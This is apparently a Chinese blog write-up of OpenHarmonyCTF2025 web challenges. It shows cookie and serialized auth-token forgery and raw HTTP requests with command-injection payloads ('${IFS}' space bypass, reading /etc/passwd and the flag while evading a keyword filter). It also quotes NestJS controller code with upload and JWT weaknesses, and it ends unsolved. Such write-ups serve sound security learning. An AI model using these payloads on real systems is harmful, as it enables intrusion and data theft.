






---
title: "OpenHarmonyCTF2025"
date: 2025-06-09T11:34:04+08:00
summary: "OpenHarmonyCTF2025"
url: "/posts/OpenHarmonyCTF2025/"
categories:
  - "赛题wp"
tags:
  - "OpenHarmonyCTF2025"
draft: true
---

忘记报名了，赛后复现emmm

## Layers of Compromise

打开题目是一个登录界面，扫目录拿到一个配置文件



```htaccess
# .htaccess
Options -Indexes
php_flag display_errors off

<Files "config.php">
    Order Allow,Deny
    Deny from all
</Files>

# 限制访问API目录
<FilesMatch "^debug\.php$">
    Order Deny,Allow
    Deny from all
</FilesMatch>
```

还有一个debug.php但是感觉没啥用

首先弱密码登录后台`user\password123`后发现文档中有两个管理员文档

在cookie中伪造admin就可以访问了



访问日志就会自动跳到登录界面，在第二个文档中看到有一个开发令牌在/data/app/www/secrettttts/目录下，扫目录拿到一个token.txt

```php
7f8a1a4b3c7d9e6f2b5s8d7f9g6h5j4k3l2m1n
--auth.php
if (isset($_COOKIE['auth_token'])) {
    $auth_data = unserialize(base64_decode($_COOKIE['auth_token']));
    if ($auth_data['username'] === 'dev' && 
        $auth_data['hash'] === md5('dev' . $CONFIG['auth_key'])) {
        return true;
    }
}
--
'username'=>'dev' 'auth_key' => 'S3cr3tK3y!2023'
```

写个代码

```php
<?php
// 认证信息
$username = 'dev';
$auth_key = 'S3cr3tK3y!2023';

// 计算hash值
$hash = md5($username . $auth_key);

// 构造认证数据数组
$auth_data = array(
    'username' => $username,
    'hash' => $hash
);

// 序列化并base64编码
$serialized = serialize($auth_data);
$auth_token = base64_encode($serialized);
//YToyOntzOjg6InVzZXJuYW1lIjtzOjM6ImRldiI7czo0OiJoYXNoIjtzOjMyOiI1ZGEwYjcxNTZkZDk1ZGQ3ZjdlYmNlNjA4YTBhNDY2YiI7fQ==
```

然后我们伪造auth_token后就出现日志文件了



看了半天没看出来什么，猜测这个传入的是系统命令进行拼接，抓包处理吧

```
POST /logs.php HTTP/1.1
Host: web-4cc94827f7.challenge.xctf.org.cn
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Origin: http://web-4cc94827f7.challenge.xctf.org.cn
Cookie: role=admin; username=admin; auth_token=YToyOntzOjg6InVzZXJuYW1lIjtzOjM6ImRldiI7czo0OiJoYXNoIjtzOjMyOiI1ZGEwYjcxNTZkZDk1ZGQ3ZjdlYmNlNjA4YTBhNDY2YiI7fQ==
Upgrade-Insecure-Requests: 1
Referer: http://web-4cc94827f7.challenge.xctf.org.cn/logs.php
Content-Length: 27

action=filter_logs&filter=1
```





发现这里需要双引号包裹并且过滤了空格，尝试前后闭合



尝试命令执行

```
POST /logs.php HTTP/1.1
Host: web-4cc94827f7.challenge.xctf.org.cn
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Origin: http://web-4cc94827f7.challenge.xctf.org.cn
Cookie: role=admin; username=admin; auth_token=YToyOntzOjg6InVzZXJuYW1lIjtzOjM6ImRldiI7czo0OiJoYXNoIjtzOjMyOiI1ZGEwYjcxNTZkZDk1ZGQ3ZjdlYmNlNjA4YTBhNDY2YiI7fQ==
Upgrade-Insecure-Requests: 1
Referer: http://web-4cc94827f7.challenge.xctf.org.cn/logs.php
Content-Length: 27

action=filter_logs&filter="${IFS}/etc/passwd;whoami"
```

有回显，可以rce，那直接打

```
POST /logs.php HTTP/1.1
Host: web-4cc94827f7.challenge.xctf.org.cn
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Origin: http://web-4cc94827f7.challenge.xctf.org.cn
Cookie: role=admin; username=admin; auth_token=YToyOntzOjg6InVzZXJuYW1lIjtzOjM6ImRldiI7czo0OiJoYXNoIjtzOjMyOiI1ZGEwYjcxNTZkZDk1ZGQ3ZjdlYmNlNjA4YTBhNDY2YiI7fQ==
Upgrade-Insecure-Requests: 1
Referer: http://web-4cc94827f7.challenge.xctf.org.cn/logs.php
Content-Length: 27

action=filter_logs&filter="${IFS}/etc/passwd;ls${IFS}/data"
```

```
POST /logs.php HTTP/1.1
Host: web-4cc94827f7.challenge.xctf.org.cn
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Origin: http://web-4cc94827f7.challenge.xctf.org.cn
Cookie: role=admin; username=admin; auth_token=YToyOntzOjg6InVzZXJuYW1lIjtzOjM6ImRldiI7czo0OiJoYXNoIjtzOjMyOiI1ZGEwYjcxNTZkZDk1ZGQ3ZjdlYmNlNjA4YTBhNDY2YiI7fQ==
Upgrade-Insecure-Requests: 1
Referer: http://web-4cc94827f7.challenge.xctf.org.cn/logs.php
Content-Length: 27

action=filter_logs&filter="${IFS}/etc/passwd;head${IFS}/data/fl""ag/f*"
```

发现还过滤了flag，也是可以绕过的

## Filesystem

有个控制器文件，挨个分析一下

```ts
// admin.controller.ts
import {
    Controller,
    Post,
    Body,
    HttpException,
    HttpStatus,
    Response, Get, Query, Request, Render, Optional, BadRequestException,
} from '@nestjs/common';
import { JwtService } from '@nestjs/jwt';
import * as fs from 'fs';
import {IsInt, IsOptional, IsString, Length, validate} from "class-validator";
import * as gray from "gray-matter"

const configFile = "/opt/filesystem/adminconfig.lock"

class AdminLoginDto {
    @IsOptional()
    @IsString({ message: 'Name must be a string' })
    @Length(0, 15, { message: 'length < 15' })
    username: string;


    @Length(0, 15, { message: 'length < 15' })
    password: number;

    @IsOptional()
    @Length(0, 15, { message: 'length < 15' })
    slogon: string
}
@Controller('/admin')
export class AdminController {
    private readonly username = 'admin';


    constructor(private readonly jwtService: JwtService) {}

    private getAdminConfig() {
        try {
            const data = fs.readFileSync(configFile, 'utf8');
            return JSON.parse(data);
        } catch (error) {
            throw new HttpException('Failed to read config file', HttpStatus.INTERNAL_SERVER_ERROR);
        }
    }

    @Post('login')
    async login(@Body() body: any, @Response() res) {
        const loginUser = Object.assign(new AdminLoginDto(), body)
        const { password: correctPassword, slogon } = this.getAdminConfig();
        const errors = await validate(loginUser, {forbidUnknownValues: false});
        if (errors.length > 0) {
            throw new BadRequestException(errors);
        }
        if (loginUser.username !== this.username || loginUser.password !== correctPassword) {
            throw new HttpException('Invalid credentials', HttpStatus.UNAUTHORIZED);
        }

        const payload = { username: this.username, slogon };
        const token = this.jwtService.sign(payload);


        res.cookie('token', token, { httpOnly: true });
        return res.status(200).json({ message: '登录成功' });
    }

    @Get('login')
    @Render('login')
    renderLogin() {

    }

    @Get('index')
    // @Render("admin")
    renderAdmin(@Request() req, @Response() res) {
        console.log(req.cookies)
        const token = req.cookies.token;

        if (!token) {
            return res.status(401).json({ message: '未授权' });
        }

        try {
            const decoded = this.jwtService.verify(token);
            const profile = gray.stringify(gray(decoded.slogon).content, {username: decoded.username})
            console.log(profile)
            res.render('admin', {"info": profile});
        } catch (error) {
            return res.status(401).json({ message: '无效的令牌' });
        }
    }


    @Get('changePassword')
    // @Render("admin")
    change(@Request() req, @Response() res) {
        console.log(req.cookies)
        const token = req.cookies.token;

        if (!token) {
            return res.status(401).json({ message: '未授权' });
        }

        try {
            const decoded = this.jwtService.verify(token);
            res.render('change');
        } catch (error) {
            return res.status(401).json({ message: '无效的令牌' });
        }
    }


    @Post('changePassword')
    async changePassword(@Request() req, @Body() body: any, @Response() res) {
        const token = req.cookies.token;
        const { password, slogon } = this.getAdminConfig();
        const newUser = Object.assign(new AdminLoginDto(), body)
        const errors = await validate(newUser, {forbidUnknownValues: false});
        if (errors.length > 0) {
            throw new BadRequestException(errors);
        }

        if (!token) {
            return res.status(401).json({ message: '未授权' });
        }

        try {
            const decoded = this.jwtService.verify(token);


            if (newUser.slogon == null) newUser.slogon = slogon
            const newInfo = JSON.stringify(newUser)
            fs.writeFileSync(configFile, JSON.stringify(newUser, null, 2));
            return res.status(200).json({message: '修改成功'})
        } catch (error) {
            return res.status(401).json({ message: '发生错误' });
        }


    }


}

```

一个admin控制器，可以生成jwt并验证，并且这里jwt的可控的

```ts
import {
  Controller,
  Post,
  Body,
  HttpException,
  HttpStatus,
  Response,
  Get,
  Query,
  Request,
  Render,
  Optional,
  BadRequestException,
  Param,
  NotFoundException,
  UploadedFile,
  UseInterceptors,
} from '@nestjs/common';
import {IsString, IsInt, validate, ValidateIf, Length} from 'class-validator';
// import { plainToClass } from 'class-transformer';
import {validateOrReject, Contains, IsEmail, IsFQDN, IsDate, Min, Max} from "class-validator";
import * as filehelper from "./functions"
import * as path from "path";
import {FileInterceptor} from "@nestjs/platform-express";
import * as fs from "fs";

const uploadPath = "/opt/uploads"


@Controller()
export class AppController {
  @Get('')
  @Render('index')
  index(){
  }
  @Post('upload')
  @UseInterceptors(FileInterceptor('file'))
  async doUpload(@UploadedFile() file: Express.Multer.File) {
    const targetPath = path.join(uploadPath, file.originalname);
    console.log(targetPath)
    if(file.originalname.endsWith(".zip") || file.originalname.endsWith(".tar")){
      fs.renameSync(file.path, targetPath);
      var result :string
      result = await  filehelper.extractArc(targetPath)

      return { message: '文件上传解压成功成功！文件夹为：', path: path.basename(result) }
    }else{
      fs.renameSync(file.path, targetPath);
      return { message: '文件上传成功！', path: file.originalname };
    }
  }


  @Get('download')
  async downloadFile(@Query('filename') filename: string, @Response() res) {
    if(filename.includes("./")) throw new NotFoundException('路径不合法');
    const filePath = path.join('/opt/uploads', filename);

    if (!fs.existsSync(filePath)) {
      throw new NotFoundException('文件未找到');
    }

    res.download(filePath, (err) => {
      if (err) {
        res.status(500).send('下载失败');
      }
    });
  }
}


```

让我缓一下，感觉不太会。。。
